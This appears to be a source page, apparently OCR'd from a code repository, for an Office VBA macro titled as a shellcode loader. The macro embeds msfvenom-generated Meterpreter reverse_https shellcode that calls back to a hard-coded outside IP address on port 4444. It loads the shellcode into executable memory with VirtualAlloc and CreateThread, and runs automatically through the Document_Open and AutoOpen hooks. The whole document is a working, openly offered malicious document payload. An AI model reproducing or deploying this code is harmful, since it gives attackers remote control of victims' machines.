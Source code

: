 Makro with embedded Shellcode Loader




Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As LongPtr
    
    +-$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=51.75.74.249 LPORT=4444 EXITFUNC=thread -f vbapplication
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 725 bytes
    Final size of vbapplication file: 2429 bytes
    
    buf = Array(252, 72, 131, 228, 240, 232, 204, 0, 0, 0, 65, 81, 65, 80, 82, 81, 86, 72, 49, 210, 101, 72, 139, 82, 96, 72, 139, 82, 24, 72, 139, 82, 32, 72, 139, 114, 80, 77, 49, 201, 72, 15, 183, 74, 74, 72, 49, 192, 172, 60, 97, 124, 2, 44, 32, 65, 193, 201, 13, 65, 1, 193, 226, 237, 82, 72, 139, 82, 32, 139, 66, 60, 72, 1, 208, 65, 81, 102, 129, 120, 24, _
    11, 2, 15, 133, 114, 0, 0, 0, 139, 128, 136, 0, 0, 0, 72, 133, 192, 116, 103, 72, 1, 208, 68, 139, 64, 32, 73, 1, 208, 139, 72, 24, 80, 227, 86, 77, 49, 201, 72, 255, 201, 65, 139, 52, 136, 72, 1, 214, 72, 49, 192, 65, 193, 201, 13, 172, 65, 1, 193, 56, 224, 117, 241, 76, 3, 76, 36, 8, 69, 57, 209, 117, 216, 88, 68, 139, 64, 36, 73, 1, _
    208, 102, 65, 139, 12, 72, 68, 139, 64, 28, 73, 1, 208, 65, 139, 4, 136, 72, 1, 208, 65, 88, 65, 88, 94, 89, 90, 65, 88, 65, 89, 65, 90, 72, 131, 236, 32, 65, 82, 255, 224, 88, 65, 89, 90, 72, 139, 18, 233, 75, 255, 255, 255, 93, 72, 49, 219, 83, 73, 190, 119, 105, 110, 105, 110, 101, 116, 0, 65, 86, 72, 137, 225, 73, 199, 194, 76, 119, 38, 7, _
    255, 213, 83, 83, 72, 137, 225, 83, 90, 77, 49, 192, 77, 49, 201, 83, 83, 73, 186, 58, 86, 121, 167, 0, 0, 0, 0, 255, 213, 232, 13, 0, 0, 0, 53, 49, 46, 55, 53, 46, 55, 52, 46, 50, 52, 57, 0, 90, 72, 137, 193, 73, 199, 192, 92, 17, 0, 0, 77, 49, 201, 83, 83, 106, 3, 83, 73, 186, 87, 137, 159, 198, 0, 0, 0, 0, 255, 213, 232, 172, _
    0, 0, 0, 47, 82, 105, 112, 86, 105, 79, 104, 66, 45, 57, 71, 101, 88, 74, 57, 101, 45, 102, 74, 111, 83, 119, 85, 117, 73, 99, 98, 120, 78, 120, 83, 117, 111, 100, 74, 119, 76, 103, 56, 74, 49, 50, 84, 45, 76, 80, 54, 75, 53, 114, 99, 75, 84, 85, 100, 97, 97, 112, 120, 86, 98, 87, 114, 86, 100, 56, 89, 65, 83, 88, 101, 78, 69, 110, 56, 85, _
    112, 98, 111, 89, 48, 102, 114, 83, 72, 84, 70, 68, 105, 116, 48, 65, 99, 78, 114, 87, 87, 85, 101, 56, 113, 120, 80, 100, 110, 105, 118, 90, 67, 108, 109, 114, 108, 107, 54, 118, 74, 78, 120, 69, 90, 119, 121, 85, 113, 70, 81, 109, 67, 106, 81, 69, 108, 111, 101, 122, 53, 75, 66, 56, 45, 65, 80, 50, 89, 114, 54, 48, 111, 87, 110, 112, 121, 52, 90, 45, _
    76, 102, 79, 84, 51, 48, 122, 89, 98, 86, 116, 122, 115, 52, 0, 72, 137, 193, 83, 90, 65, 88, 77, 49, 201, 83, 72, 184, 0, 50, 168, 132, 0, 0, 0, 0, 80, 83, 83, 73, 199, 194, 235, 85, 46, 59, 255, 213, 72, 137, 198, 106, 10, 95, 72, 137, 241, 106, 31, 90, 82, 104, 128, 51, 0, 0, 73, 137, 224, 106, 4, 65, 89, 73, 186, 117, 70, 158, 134, 0, _
    0, 0, 0, 255, 213, 77, 49, 192, 83, 90, 72, 137, 241, 77, 49, 201, 77, 49, 201, 83, 83, 73, 199, 194, 45, 6, 24, 123, 255, 213, 133, 192, 117, 31, 72, 199, 193, 136, 19, 0, 0, 73, 186, 68, 240, 53, 224, 0, 0, 0, 0, 255, 213, 72, 255, 207, 116, 2, 235, 170, 232, 85, 0, 0, 0, 83, 89, 106, 64, 90, 73, 137, 209, 193, 226, 16, 73, 199, 192, 0, _
    16, 0, 0, 73, 186, 88, 164, 83, 229, 0, 0, 0, 0, 255, 213, 72, 147, 83, 83, 72, 137, 231, 72, 137, 241, 72, 137, 218, 73, 199, 192, 0, 32, 0, 0, 73, 137, 249, 73, 186, 18, 150, 137, 226, 0, 0, 0, 0, 255, 213, 72, 131, 196, 32, 133, 192, 116, 178, 102, 139, 7, 72, 1, 195, 133, 192, 117, 210, 88, 195, 88, 106, 0, 89, 187, 224, 29, 42, 10, 65, _
    137, 218, 255, 213)


    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

